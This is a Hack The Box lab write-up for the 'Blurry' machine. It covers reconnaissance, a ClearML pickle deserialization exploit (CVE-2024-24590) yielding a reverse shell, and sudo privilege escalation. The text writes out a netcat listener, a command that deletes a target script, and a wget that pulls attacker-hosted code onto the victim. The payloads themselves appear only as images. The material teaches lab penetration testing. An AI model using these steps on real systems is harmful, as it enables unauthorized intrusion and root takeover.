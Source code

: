 # Blurry Writeup

# Intro
Blurry is an interesting HTB machine where you will leverage the CVE 2024-24590 exploit to pop a reverse shell in order to escalate your privlages within the local system. This box uses ClearML, an open-source machine learning platform that allows its users to streamline the machine learning lifecycle. ClearML is used by many Data Engineers and Data Scientist.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source toolf for network exploration, along with security auditing
3. Clearml python libraries: These libraries are used to interact with th open-source ClearML that we plan to hack into. I will go more into these libraries within the writeup.

I will go into detail regarding the steps taken. First we will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnisance
As with any initial penetration test, we will start with a nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -v -sV -sC -p- 10.10.11.19                               
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 2CBD65DC962D5BF762BCB815CBD5EFCC
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

}
```

We see that we have ports 22 and 80 open. Also that that it is a Linux machine. To get more info, we will visit the page at blurry.htb or 10.10.11.19 within the web browser.


![appblurryhtb login](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/bf5b7bc6-a7f4-4fb8-ba1f-4367812385b5)


Here we are able to make a user name of our choosing and log into ClearML. You will be greated with a page regarding instructions of how to use clear ML along with creating your own credentials.

To do so, we will need to pip install the clearml libraries via the instrictions below.

![credentials](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/a2029720-dcc0-4de9-ae8a-5b35b59ee2af)



One thing to note, to be sure that the libaries are installed correctly, I ran a pip install command on the following:

```bash
pip install clearml
pip install clearml-init
pip install clearml-agent

}
```
For some reason the origional pip isntall ClearML did not properly install the clearml-init and clearml-agent for me. If you run into issues, I reccommend retying to pip install these.


### Avenues of Exploitation

After playing around with the website, and researching, I found that ClearML has a vulnerability (CVE2024-24590). This vulnerability can allow a user to run commands via the pickle python library.

The pickle library is used by many python users. The uses range from data transfer, saving a program state, or caching. From my experience as a data analyst/data scientist, the pickle library has many uses.

However in this case, we will use it as an exploit. Below is the python payload that I used.

![image](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7d527fcd-1162-4f90-9172-747763d35ece)



### Exploitation Foothold

After the payload is created, we will run the the following command. This will start the ClearML agent to upload our malicious code to the ClearML site.

```bash
clearml-agent daemon --queue default
}
```

After this is ran, we will set up a listener (I put my listener on port 4444)

```bash
nc -lvnp 4444
}
```

Then execute the python payload

```bash
python3 <your python file payload>.py
```

NOTE: At least in my case, it took a while for me to establish a connection. I recommend getting a cup of coffee and coming back. After, you should see that we that we have a reverse shell.

![reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/b403c153-9b87-4527-9fc2-e7547d2e6af2)


### Post Exploitation

Now we are in the system and gained a foothold. It is good practice to see who we are, and if the user we are logged into has any root permissions. 

As seen below, we are the user jippity and they are able to run sudo privilages on the file path /user/bin/evaluate_model /models/*.pth. This means that we are able to run sudo level commands in this directory.

Before we do that, we can explore the directory to find the user flag. You should be able to find pretty easily as you navigate through the user files.

![userflag](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/721c2932-9a6a-49d3-b8e3-6ba81fed24ee)


After we get the userflag, our next target is the root flag. Since we know that the user we are logged in as (jippity) has sudo privlages specified in the file path above, we can navigate to the /models directory and see what is in there.

As we will see, they have two files, one being a demo_model.pth and a evaluate_model.py. Since we know that we can run sudo privlages, we can create a malicious python script to execute in order to excalate our privlages. We will do this by popping a reverse shell. Below is the python script I created in order to do so.

![evaluate_model python reverseshell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/736ec370-0133-4e3e-85f4-0fa073cd456a)


I named this file evaluate_model.py. The reason why is because we are tricking the system into thinking that it is running the origional evaluate_model.py that is within the /models directory. However, it will be running the code above instead.

After we created our second payload, we will remove the origional evaluate_model.py
```bash
rm /models/evaluate_model.py
```

Once that is removed, we will set up a simple python server on our attacking machine to upload the malicious python file.

```bash
python -m http.server <port of your choosing>
```

Then we will use wget to upload the file within the victim machine in the /models directory. NOTE: In your attacking machine, you will need to be in the directory where you ahve your malicious python file is.

```bash
wget http://<your ip>:<your port>/<malicious.py> -O evaluate_model.py
```

After, we should see that the script was succesfully uploaded. Now we will set up a netcat listener

![reverse shell root](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/3ce4a8bf-1a75-4f22-995e-22613e9743ba)



Now we will execute the scriptwithin the models directory with the following command.

```bash
sudo /usr/bin/evaluate_model /models*.pth
```
![sudo command](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/2d580148-49a5-4d90-bf4f-81d8fdfb8355)

At last we are logged in as root.

![root reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ceb961b6-bf77-400c-b644-eec87db80749)

From here, we can explore directories as root and we can cat the root.txt file to get the root flag.

![rooted](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7f4a980e-eb49-4cce-9106-518bd9062457)







